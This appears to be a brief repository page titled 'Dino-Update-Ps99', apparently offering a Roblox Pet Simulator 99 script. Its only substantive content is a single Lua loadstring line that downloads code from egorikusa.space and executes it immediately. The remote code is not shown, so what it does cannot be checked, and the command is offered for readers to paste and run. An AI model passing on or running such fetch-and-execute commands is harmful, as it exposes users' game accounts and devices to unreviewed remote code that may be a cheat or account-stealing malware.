 # Dino-Update-Ps99



loadstring(game:HttpGet("https://egorikusa.space/02450c1008b1386bce0ff1ac.lua", true))()
